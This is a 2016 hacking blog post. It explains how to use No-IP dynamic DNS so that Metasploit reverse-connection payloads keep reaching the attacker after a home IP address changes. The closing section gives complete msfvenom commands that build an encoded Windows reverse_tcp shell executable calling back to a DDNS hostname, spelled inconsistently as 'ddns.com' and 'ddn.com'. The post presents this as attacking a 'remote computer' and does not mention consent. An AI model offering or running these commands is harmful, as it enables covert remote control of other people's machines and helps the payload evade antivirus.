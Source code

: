 ```yaml
---
date: 'Sun Mar 06 2016 13:58:02 GMT+0530 (India Standard Time)'
title: Use DDNS to Deal With Your Dynamic Public IP
tags:
  - hacking
  - dns
  - metasploit
---
```


Many of us have an internet connection with a dynamic public IP. That poses some problems if you want to use that connection to host a website, or maybe for hackers like us, to hack using reverse connection payloads. I’m going to discuss in this post how you can overcome that using Dynamic DNS or DDNS. But I’m getting ahead of myself, so let me start by explaining what is public IP and what are some problems you can encounter if you have a dynamic one.


## Understanding Dynamic Public IP Address


Public IP is the IP that’s visible to machines outside your local network. For example, if two or more machines are connected through a router—maybe through Wi-Fi—to the internet, then the machines are in a local network, as well as both of them are connected to the Internet. Each of them has a locally unique private IP address, not globally. For connecting to the Internet they use the router’s public IP.

IP addresses can be static or dynamic. Most of the ISPs provide dynamic public IP, that means it changes from time to time, contrary to the static one, which remains fixed. You can check what’s your public IP by googling “What is my IP”, Google will tell you.

Having a dynamic IP address is a hindrance to hacking using reverse connection payloads. Reverse connection payloads, such as `android/meterpreter/reverse_tcp`, store the host IP address, i.e. the IP address of the attacker machine. When it gets executed, it connects back to the host machine by the reference of that host IP. But as dynamic IP keeps changing from time to time, you won’t be able to use a payload for a long time because after some time the IP stored inside it won’t point to your machine anymore. That’s a problem — a major one. This is where DDNS comes in.


## Dynamic DNS aka DDNS to The Rescue

We all know what DNS or Domain Naming System is, it’s the system which binds an IP to a domain name. When you try to connect to a domain name, for example opening www.google.com on a browser, the request first goes to a DNS server, which resolves the domain name into an IP, and then the browser gets the Google homepage from that IP. Similarly you can get a domain name for your machine and put that domain name in the place of HOST IP address in your payload. But the problem of your IP being dynamic still remains.

Here DDNS comes to the rescue. DDNS servers update the DNS record of your machine continuously, so that even for dynamic IP machines the domain name resolves to the correct IP, always.


## Setting up DDNS using No-IP

There are many DDNS providers, I'm going to use No-IP which is one of them.

### Step 1: Creating a No-IP account

Head to https://www.noip.com and create a free account there.

### Step 2: Adding a Hostname in No-IP

When you get to the dashboard, go to Dynamic DNS → Hostnames and add a hostname of your choice from there. You can also choose a domain name from a list there. The address you will get is `hostname.domain`. For example, I chose the default domain name—ddns.com—and the hostname I entered is _skulltech_. So the address I got is “skulltech.ddns.com”. Refer to the screenshots below for reference.

![step-1](/images/posts/ddns-dynamic-ip-step-11.png)
![step-2](/images/images/ddns-dynamic-ip-step-21.png)


### Step 3: Install the Dynamic DNS Update Client


Now you’ll need to install a program on your computer and set it up. So that it connects to No-IP server frequently and updates the DNS record. Download the update client from https://www.noip.com/download . It’s a tar.gz archive, extract it using the following command —
```console
$ tar -xzvf noip-duc-linux.tar.gz
```

![screenshot-from-2016-12-18-14-24-36](/images/posts/ddns-dynamic-ip-screenshot-from-2016-12-18-14-24-36.png)


After that change working directory to the newly extracted folder and run the following command to install the No-IP client.

```console
$ make install
```

![screenshot-from-2016-12-18-14-38-06](/images/posts/ddns-dynamic-ip-screenshot-from-2016-12-18-14-38-06.png)


After that the program will ask for your No-IP username and password.


### Step 4: Configure the Client and Run It


Run the following command to launch the configuration wizard of the No-IP client. It will ask you for your credentials, as well as which hostnames you want to update. Select the hostname—or hostnames—that you want to associate with this computer in that step.

```console
$ noip2 -C
```

When you are done with the configuration, just run `noip2` in the terminal to start the client, it will run in the background and keep updating your DNS record.

```console
$ noip2
```

![screenshot-from-2016-12-18-14-49-56](/images/posts/ddns-dynamic-ip-screenshot-from-2016-12-18-14-49-56.png)


## Using DDNS Hostname in Payloads


You can create a basic reverse shell payload for windows and get a shell on a remote computer on running it in that computer. Refer to this tutorial by Offensive Security for that, I won’t be going into details how to do that. Assuming that you already know how to create these payloads using _msfvenom_—if you don’t check out [this tutorial](/articles/embed-metasploit-payload-in-apk-easily/)—I'll show you how you can use your DDNS hostname there.

Generally we run a command like this to generate the payload. Here LHOST is the address of the our local machine, in the following example it’s _192.168.1.101_.

```console
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=192.168.1.101 LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Now that we have a DDNS hostname, pass that as LHOST to _msfvenom_ instead of your IP. So now the command will be —

```console
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=skulltech.ddn.com LPORT=3333 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
```

Feel free to leave a comment if you face any problem. Happy Hacking! :)
